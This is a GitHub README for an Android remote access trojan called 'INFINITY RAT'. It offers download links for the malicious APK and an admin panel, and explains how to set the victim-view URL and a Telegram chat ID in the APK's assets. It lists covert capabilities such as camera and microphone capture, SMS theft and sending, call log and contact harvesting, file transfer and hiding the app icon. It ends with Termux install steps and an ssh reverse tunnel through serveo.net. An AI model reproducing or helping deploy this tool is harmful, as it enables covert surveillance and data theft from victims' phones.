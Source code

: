 # INFINITY RAT
![infinity](https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/3d071fda-f2df-4391-bfd8-d6e687ae9fd7)

## Application
- 𝙰𝙳𝙼𝙸𝙽 𝙿𝙰𝙽𝙴𝙻[➱](https://github.com/infinitynetwork13/INFINITY-RAT/raw/main/APP/Admin_Panel.apk)
- 𝙸𝙽𝙵𝙸𝙽𝙸𝚃𝚈 𝚁𝙰𝚃 [➱](https://github.com/infinitynetwork13/INFINITY-RAT/raw/main/APP/INFINITY_RAT.apk)
- 𝙰𝙿𝙺 𝙴𝙳𝙸𝚃𝙾𝚁[➱](https://github.com/infinitynetwork13/INFINITY-RAT/raw/main/APP/APK_Editor.apk)
- 𝚃𝙴𝚁𝙼𝚄𝚇[➱](https://f-droid.org/repo/com.termux_118.apk)

## 𝐄𝐛𝐢𝐭 𝐀𝐩𝐩𝐥𝐢𝐜𝐚𝐭𝐢𝐨𝐧
- 𝐀𝐩𝐤 𝐄𝐝𝐢𝐭𝐨𝐫
```ruby
𝙾𝚙𝚎𝚗 𝐀𝐩𝐤 𝐄𝐝𝐢𝐭𝐨𝐫
𝙲𝚕𝚒𝚌𝚔 𝐀𝐩𝐤 𝐅𝐢𝐥𝐞
𝚂𝚎𝚕𝚎𝚌𝚝 𝗜𝗡𝗙𝗜𝗡𝗜𝗧𝗬_𝗥𝗔𝗧.𝗮𝗽𝗸
𝚂𝚎𝚕𝚎𝚌𝚝 𝗦𝗶𝗺𝗽𝗹𝗲 𝗘𝗱𝗶𝘁
𝙲𝚕𝚒𝚌𝚔 𝗔𝘀𝘀𝗲𝘁𝘀
```
```ruby
┌───𝗔𝘀𝘀𝗲𝘁𝘀
├──𝘂𝗶𝗱.𝘁𝘅𝘁
├─𝘂𝗿𝗹.𝘁𝘅𝘁
├𝗰𝗵𝗮𝘁_𝗶𝗱.𝘁𝘅𝘁
```
- 𝗔𝗱𝗺𝗶𝗻 𝗣𝗮𝗻𝗲𝗹
```ruby
𝙾𝚙𝚎𝚗 𝗔𝗱𝗺𝗶𝗻 𝗣𝗮𝗻𝗲𝗹
𝙲𝚕𝚒𝚌𝚔 𝗦𝗶𝗻𝗴 𝗶𝗻 𝗚𝗼𝗼𝗴𝗹𝗲
𝚂𝚎𝚕𝚎𝚌𝚝 𝗚𝗼𝗼𝗴𝗹𝗲 𝗮𝗰𝗰𝗼𝘂𝗻𝘁 
𝙲𝚘𝚙𝚢 𝚄𝙸𝙳
```

- 𝘂𝗶𝗱.𝘁𝘅𝘁
```ruby
𝗔𝗱𝗺𝗶𝗻 𝗣𝗮𝗻𝗲𝗹 𝚄𝙸𝙳
```
- 𝘂𝗿𝗹.𝘁𝘅𝘁
```ruby
𝚈𝚘𝚞𝚛 𝚅𝚒𝚌𝚝𝚒𝚖 𝚅𝚒𝚎w
𝘂𝗶𝗱 𝗘𝘅𝗮𝗺𝗽𝗹𝗲: http://www.google.com
```
- 𝗰𝗵𝗮𝘁_𝗶𝗱.𝘁𝘅𝘁

𝙲𝚕𝚒𝚌𝚔[@chat_id_echo_bot](https://t.me/chat_id_echo_bot)
<a href="https://t.me/chat_id_echo_bot"><img src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/64017b30-3dec-4f49-98ca-99a763280001"/></a>


## 𝗧𝗲𝗿𝗺𝘀 𝗼𝗳 𝗨𝘀𝗲

ʏᴏᴜʀ ʜᴜɴᴛɪɴɢ ᴅᴇᴠɪᴄᴇ ᴡɪᴛʜ ᴛʜɪs ᴀᴘᴘ

```ruby
 ●𝙵𝚘𝚗𝚝 𝙲𝚊𝚖𝚎𝚛𝚊
 ●𝙱𝚊𝚌𝚔 𝙲𝚊𝚖𝚎𝚛𝚊
 ●𝙼𝚒𝚌𝚛𝚘𝚙𝚑𝚘𝚗𝚎 𝚁𝚎𝚌𝚘𝚛𝚍 
 ●𝙲𝚘𝚗𝚝𝚊𝚌𝚝 𝙽𝚞𝚖𝚋𝚎𝚛 𝙸𝚗𝚏𝚘
 ●𝙰𝚍𝚍 𝙲𝚘𝚗𝚝𝚊𝚌𝚝 𝙽𝚞𝚖𝚋𝚎𝚛 
 ●𝙲𝚊𝚕𝚕 𝙻𝚘𝚐 𝙸𝚗𝚏𝚘
 ●𝚃𝚎𝚛𝚐𝚊𝚝 𝙲𝚊𝚕𝚕
 ●𝚂𝚑𝚘𝚠 𝚃𝚘𝚊𝚜𝚝 𝙼𝚎𝚜𝚜𝚊𝚐𝚎
 ●𝚂𝚑𝚘𝚠 𝙽𝚘𝚝𝚒𝚏𝚒𝚌𝚊𝚝𝚒𝚘𝚗
 ●𝚁𝚎𝚌𝚎𝚒𝚟𝚎 𝚒𝚗𝚌𝚘𝚖𝚒𝚗𝚐 𝚂𝙼𝚂
 ●𝚂𝚎𝚗𝚍 𝚂𝚖𝚜
 ●𝚂𝚖𝚜 𝙻𝚒𝚜𝚝
 ●𝙰𝚙𝚙 𝙸𝚗𝚏𝚘 𝙻𝚒𝚜𝚝
 ●𝙾𝚙𝚎𝚗 𝙰𝚙𝚙
 ●𝚄𝚙𝚕𝚘𝚊𝚍 𝚏𝚒𝚕𝚎
 ●𝙳𝚘𝚠𝚗𝚕𝚘𝚊𝚍 𝙵𝚒𝚕𝚎
 ●𝙸𝚖𝚊𝚐𝚎 𝙻𝚒𝚜𝚝
 ●𝙷𝚒𝚍𝚎 𝙰𝚙𝚙 𝙸𝚌𝚘𝚗
 ●𝙿𝚕𝚊𝚢 𝙼𝚞𝚜𝚒𝚌
 ●𝙲𝚑𝚊𝚗𝚐𝚎  𝚅𝚒𝚎𝚠 𝚄𝚛𝚕
 ●𝚅𝚒𝚎𝚠 𝙰𝚗𝚍𝚛𝚘𝚒𝚍 𝚟𝚎𝚛𝚜𝚒𝚘𝚗
 ●𝚅𝚒𝚎𝚠 𝙳𝚎𝚟𝚒𝚌𝚎 𝙼𝚘𝚍𝚎𝚕
 ●𝚅𝚒𝚎𝚠 𝙱𝚊𝚝𝚝𝚎𝚛𝚢
 ●𝚅𝚒𝚎𝚠 𝚂𝚒𝚖 𝙲𝚊𝚛𝚍 𝙽𝚊𝚖𝚎
```

## 𝑨𝒑𝒑 𝑺𝒆𝒓𝒗𝒊𝒄𝒆
```ruby
 ●𝙱𝚊𝚌𝚔𝚐𝚛𝚘𝚞𝚗𝚍 𝚜𝚎𝚛𝚟𝚒𝚌𝚎 𝟸𝟺𝚑
 ●𝙲𝚘𝚗𝚗𝚎𝚌𝚝 > 𝙳𝚒𝚜𝚌𝚘𝚗𝚗𝚎𝚌𝚝 > 𝙲𝚘𝚗𝚗𝚎𝚌𝚝
```
## INFINITY RAT

<a href="https://t.me/Infinity_info_network/41"><img src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/264cb2b6-62ca-47a1-8ce5-ea1b2893f709"/></a>



## install Tool

```ruby
pkg update -y
pkg upgrade -y
apt-get install python -y
apt-get install git -y
apt-get install wget -y
apt-get install openssh -y
apt-get install nodejs -y
pip install requests
git clone https://github.com/infinitynetwork13/INFINITY-RAT.git
```
- SSH
```ruby
ssh -R 80:localhost:9999 serveo.net
```
`(yes/no/fingerprint) yes`
`CTRL + c`
## Past Time Run
```ruby
cd INFINITY-RAT
bash install.sh
```
## Other Time Run
```ruby
cd INFINITY-RAT
python infinity.py
```
## CONTACT
<div align="center">
	<a href="mailto:infinity.network13@gmail.com"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/2802c88a-f4e0-4380-9b60-6807cdf33446"/></a>
	<a href="https://t.me/Infinity_info_network"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/4acb85cb-3cf9-4e37-9d69-ce0e113be140"/></a>
	<a href="https://infinitynetwork13.weebly.com/"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/146b4540-d231-4b62-bf02-32e2a9031439"/></a>
	<a href="https://www.facebook.com/profile.php?id=100094097389473"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/bc1bc5d1-c136-467a-9009-13b75c210c9f"/></a>
	<a href="https://g.dev/mr_shohid"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/f38b2c93-46ab-48a5-b2a7-3cb693371ce6"/></a>
<a href="https://youtube.com/@infinityinfo_?si=MY72qvkV8AW-iz_v"><img width="35px" height="28px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/0285ed14-60ee-4ff1-a92f-44eaf9f7a833"/></a>
</div>

## Language
<div align="center">
	<a href="https://www.python.org/"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/0d2f5917-138c-4fca-afc5-c166799e205d"/></a>
	<a href="https://nodejs.org/"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/396c70c6-cc4f-4302-8d64-77e11f1914e0"/></a>
	<a href="https://www.gnu.org/"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/575e3506-fee0-4f92-a7b9-0e9f0559438e"/></a>
	<a href="https://html.com/"><img width="35px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/df47658e-0450-48b5-b972-25a724cdfb65"/></a>
	<a href="https://www.free-css.com/"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/958b2e4d-f81f-4b38-8859-d25f262a0108"/></a>
	<a  href="https://developer.mozilla.org/en-US/docs/Web/JavaScript"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/11834238-4725-4c28-8646-4a2fc124d829"/></a>
</div>
